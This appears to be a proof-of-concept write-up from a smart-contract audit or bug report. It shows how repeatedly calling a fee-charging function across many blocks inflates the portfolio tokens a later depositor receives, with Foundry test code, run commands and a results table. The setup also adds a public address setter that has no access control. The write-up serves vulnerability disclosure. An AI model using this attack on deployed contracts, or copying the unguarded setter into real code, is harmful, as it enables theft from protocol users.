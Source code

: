 ## Requirement
**My setup doens't deploy via proxy, so a circular dependecy arose between feeModule.sol and portfolio.sol**

- therefore, i added this function to FeeModule.sol
```sol
function ChangePortfolioAddress(address _portfolio) public {
   portfolio = IPortfolio(_portfolio);
}
```
- And OfCourse this line:
```
import {IPortfolio} from  "src/contracts/core/interfaces/IPortfolio.sol";
```

## Setup
**`Now, All You have to do is to this:`**
- build dependencies quickly by running `forge build` , it would take 3 seconds hardly
- place gist in test/ folder such that test/POC.sol file is created, i've already provided a link to a `gist` in issue comments (probably last one)




## The Attack

**`This attack outcomes depends on two things:`**
- the no of blocks, the attack is repeated in
- the timestamp difference between these blocks

**Analyze `_simulateAttacksInDifferentBlocks()`**
```diff
    function _simulateAttacksInDifferentBlocks() internal {
        vm.startPrank(attacker);
+        uint blocks = 20; // no of blocks
        for (uint i = 1; i < blocks; i++) {
+            vm.warp(block.timestamp + 50); //time-diff between blocks
            feeModule._chargeProtocolAndManagementFees();
        }
        vm.stopPrank();
    }
```
In Normal deposit, as per our current configurations, user will get  
- `9500000000000000`

**run this test**
```bash
forge test --contracts test/POC.sol --match-test test_NormalDeposit -vvv
```

**Now we wanna see change in protocol behaviour after it has been attacked:**

**Remember at this point, the alice is depositing after the protocol  has been attacked**


**`Here is table demonstrating different outcomes of increase in user portfolio balance, if he deposits the same amount after the protocol is attacked:`**


| Blocks | t+50             | t+10             | t+1              |
| ------ | ---------------- | ---------------- | ---------------- |
| 20     | 9500029476677719 | 9500005895327870 | 9500000589532575 |
| 200    | 9500308733951601 | 9500061745983933 | 9500006174579890 |
| 2000   | 9503101758218631 | 9500620270603930 | 9500062025233455 |
| 20000  | 9531077202869606 | 9506207323135757 | 9500620549828824 |



**where,**
- `blocks:`  *no of blocks attack is repeated in*
```sol
uint blocks = 20; // no of blocks
```
- `t + n:`  *timestamp difference between the no of blocks attack is repeated in*
```sol
vm.warp(block.timestamp + 50); //time-diff between blocks
```

**Try it yourself by running this test with different configurations**
```bash
forge test --contracts test/POC.sol --match-test test_AfterAttackDeposit -vvv
```

`[+]` **At this point it is clear how much protocol's calculations are affected, due to this attack the protocol can be rigged in lot of unimaginable ways, like you just saw in the table above how much more alice's same deposits yeild**

`[+]` **He should be only getting `9500000000000000` but due to the attack he was able to increase that number from least `9500000589532575` to `9531077202869606` as shown in the table above**

`[+]` **Which is `589532575` to `31077202869606` more tokens**

`[+]` **that means a user can mint more than `31077202869606` portflio tokens if he does the same deposits after the attack**
